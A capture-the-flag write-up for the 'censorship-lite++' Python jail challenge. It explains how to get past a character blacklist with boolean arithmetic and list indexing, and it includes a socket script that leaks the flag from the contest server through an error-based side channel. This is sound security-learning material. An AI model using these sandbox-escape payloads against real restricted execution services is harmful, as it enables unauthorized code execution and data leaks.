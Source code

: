 # censorship-lite++

you may want to read my [censorship-lite](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/censorship-lite) writeup if you havent already (for background + better understanding)

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/65b625a5-31fd-44c4-9dbf-91f4ac241070)

main.py
```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."]):
                print("invalid input")
                continue
            exec(eval(code))
        except Exception as err:
            print("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
```

## solution

taking a look at allowed keywords, we get these:

```
>>> [code for code in dir(__builtins__) if not any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."])] 
['EOFError', 'IOError', 'LookupError', 'OSError', 'TabError', '__doc__', 'abs', 'any', 'chr', 'hash', 'map', 'max', 'ord', 'pow', 'round', 'sum', 'vars']
```

we barely have anything to use, can't even call any functions, so the above is (mostly, you'll see why not fully) useless

luckily, we can still create numbers by adding booleans together, and we can still create booleans because `func==func` is true always.

we don't have access to parenthesis, but we can emulate them using lists and then getting the 0th index of the list by using <br>
`[<thing>][vars!=vars][vars!=vars]`. this is equivalent to `(<thing>)`

my first solution was to compare parts of the flag with characters that we are allowed to use, but i 
was in disbelief at how many characters were not allowed to be printed, so we could not check them to see if they were in the flag

i got `amateursCTF{??_?????_??????_????s_???_??_??gh?_??gh?_??_flag_???_the_??gh?_????d_??_?????s?_??v??}` by checking chars that were not allowed in the flag

my realization came eventually that we could compare letters in the flag to each other, instead of to string literals we make

for example: `"a"[_[num1]==_[num2]]`. if the output is an error (zzzzz), then we know that those two characters are equal

and use intuition and guesswork to deduce the flag

```py
import socket
from time import sleep
from string import printable as allch

HOST = "amt.rs"
PORT = 31672

chars = "abcdfghjkmnopqrsuvwxyz"
chars += chars.upper()
chars += "_{}.:-=+[]()*!@#$%^&<>,./?"


printable = ""

for _ in allch:
    if _ not in "lite0123456789<:(){}*\\,-.\"' ":
        if 32 < ord(_) < 128:
            printable += _


def get_num(v):
    return "+".join([f"[vars==vars][vars!=vars]"] * v)


def get_char_payload(index2: int, index3):
    thing2 = "+" if index2 else ""
    thing3 = "+" if index3 else ""
    return f'"a"[_[[vars==vars][vars!=vars]%[vars==vars][vars!=vars]{thing2}{get_num(index2)}]==' \
           f'_[[vars==vars][vars!=vars]%[vars==vars][vars!=vars]{thing3}{get_num(index3)}]]'


total = ""
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.recv(1024)
    for i2 in range(98):
        for i3 in range(i2, 98):
            if i3 == i2:
                continue
            pl = get_char_payload(i2, i3)
            s.send((pl + "\n").encode('ascii'))
            sleep(0.01)
            if "zzzz" in s.recv(1024).decode('ascii'):
                print(i2, "==", i3)

# a m a t e u r s C T F { l e _ e l i t e _ l i t  t l e _ t i l e s _ l e t _ l e _ l i g h t _ l i
# 0 1 2 3 4 5 6 7 8 9 1011121314151617181920212223 24252627282930313233343536373839404142434445464748
# g h t _ l e _ f l a g _ t i l _ t h e _ l i g h  t _ t i l e d _ l e _ e l i t i s t _ l e v e l }
# 495051525354555657585960616263646566676869707172 73477576777879808182838485868788899091929394959697
```

we get the flag now
